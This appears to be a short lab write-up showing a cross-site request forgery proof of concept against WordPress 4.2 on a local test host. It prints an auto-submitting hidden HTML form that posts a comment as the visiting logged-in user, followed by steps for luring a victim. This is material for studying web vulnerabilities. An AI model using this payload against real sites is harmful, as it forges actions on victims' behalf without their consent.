

# The Steps to Perform CSRF
**Step 1:**
Create the malicious code
```
<form name="csrfForm" action="http://wpdistillery.vm/wp-comments-post.php" method="POST">
	<input type="hidden" name="comment" value="I made a comment" />
	<input type="hidden" name="comment_post_ID" value="1" />
	<input type="hidden" name="comment_parent" value="0" />
	<input type="hidden" name="_wp_unfiltered_html_comment" value="0791945477" />
	<input type="submit" value="Post+Comment" />
</form>
<script>
	document.csrfForm.submit(); 
</script>
```
**Step 2:**
Now Wait for a user thats logged into the WordPress site to vist your malicious website.The csrfForm should automaticly submit and post the comment.

# The types / classes of vulnerabilities involved and any related CVE identifiers
**Cross-Site Request Forgery (CSRF)**

The attack was done in WordPress 4.2 

# Demo

